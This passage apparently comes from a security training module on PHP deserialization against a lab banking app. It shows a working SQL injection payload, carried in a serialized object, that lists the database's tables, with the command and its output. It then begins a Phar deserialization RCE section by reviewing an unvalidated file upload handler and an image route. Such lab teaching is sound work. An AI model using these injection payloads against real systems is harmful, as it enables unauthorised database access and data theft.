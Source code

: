 For this example, we would be able to carry out the SQL injection attack like so:

```php
$up = new UserProperty(1, "group_concat(table_name) from information_schema.tables where table_schema='htbank';-- ");
echo POST_Check_User_Property(serialize($up));

```

Running this results in proof the injection works:

```shell
php example.php

failed_jobs,migrations,password_resets,personal_access_tokens,users

```


# RCE: Phar Deserialization

* * *

## Finding the Vulnerability

Let's go back and review the profile picture upload function we've ignored for now. Inside `app/Http/Controllers/HTController.php:handleSettings()`, we can see the following code, which handles uploaded files.

```php
...
if (!empty($request["profile_pic"])) {
  $file = $request->file('profile_pic');
  $fname = md5(random_bytes(20));
  $file->move('uploads',"$fname.jpg");
  $user->profile_pic = "uploads/$fname.jpg";
}
...

```

Although the website says `only JPG` are allowed, there doesn't seem to be any validation on the backend, and we should be able to upload anything. However, we see that the file name is a random MD5 value with `.jpg` appended. We can try uploading a PHP file and see if we can get code execution that way, but we will only get an error message saying that the browser can not display the image because it is corrupted.

If we right-click on the profile picture in the navbar and select "Copy Image Link," we get something like `http://SERVER_IP:8000/image?_=uploads/MD5.jpg` and if we visit it in the browser, we are taken to `http://SERVER_IP:8000/uploads/<MD5>.jpg`

We can check out the routes in `routes/web.php` to see where the `/image` endpoint is handled:

```php
...
Route::get('/image', [HTController::class, 'getImage'])->name('getImage');

```
